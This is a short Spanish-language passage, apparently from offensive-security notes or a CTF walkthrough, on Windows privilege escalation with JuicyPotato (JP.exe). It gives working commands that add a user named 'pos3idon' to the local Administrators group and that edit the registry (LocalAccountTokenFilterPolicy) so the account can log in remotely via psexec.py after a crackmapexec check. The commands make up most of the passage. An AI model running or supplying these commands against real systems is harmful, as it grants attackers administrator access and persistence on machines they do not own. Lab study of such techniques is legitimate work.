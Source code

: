 `-a "/c net localgroup Administrators pos3idon /add"`: En este caso, se está ejecutando el comando `net localgroup` para agregar el usuario "pos3idon" al grupo de administradores locales del sistema.


Si al verificar con crackmapexec y no te aparece un pwn3d puedes hacer lo sigiente.

Tienes que modificar un registro.

```
JP.exe -t * -p c:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1234
```

Y ya tendrias un usuario valido a nivel de sistema con privilegios de administrador con el cual ingresar a a travez de psexec.py.